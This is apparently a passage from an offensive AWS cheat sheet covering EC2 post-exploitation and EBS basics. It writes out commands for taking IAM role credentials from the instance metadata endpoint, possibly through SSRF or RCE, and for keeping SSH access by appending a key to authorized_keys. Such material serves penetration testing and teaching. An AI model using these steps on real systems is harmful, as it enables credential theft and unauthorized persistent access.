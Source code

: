 * We can grab the credentials by abusing metadata (Web Application with SSRF,RCE and so on)

#### After the initial access
1. Enumerate the key (Role)

```
aws sts get-caller-identity
```

2. If there are roles associated with the key, we can grab the credentials by issuing a request to the metadata endpoint (v1 or v2)

```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_OF_PREVIOUS_COMMAND
```

3. Configure the aws cli

```
aws configure 
```

Or use enviroment variables.

### Persistence
* All the persistence techniques works here, SSH persistence, vim backdoor and so on.

#### SSH Persistence example

1. Generate SSH Key pair

```
ssh-keygen
```

2. Add public key to authorized_keys

```
echo "PUBLIC_Key" >> /home/user/.ssh/authorized_keys
```

3. Use the private key to connect 

```
ssh -i public_key user@instance
```

# Elastic Block Store
* Block storage system used to store persistent data
* It's possible to attach this drive to EC2 and increase the storage (Like and HD, but scalable).
* It's possible to create a snapshot (It will be saved on S3) and create a volume from this snapshot.
* It's possible to attach the snapshot (Backup of BS) to an EC2 instance
* Snapshots can be used as volumes or AMI's

## Enumeration
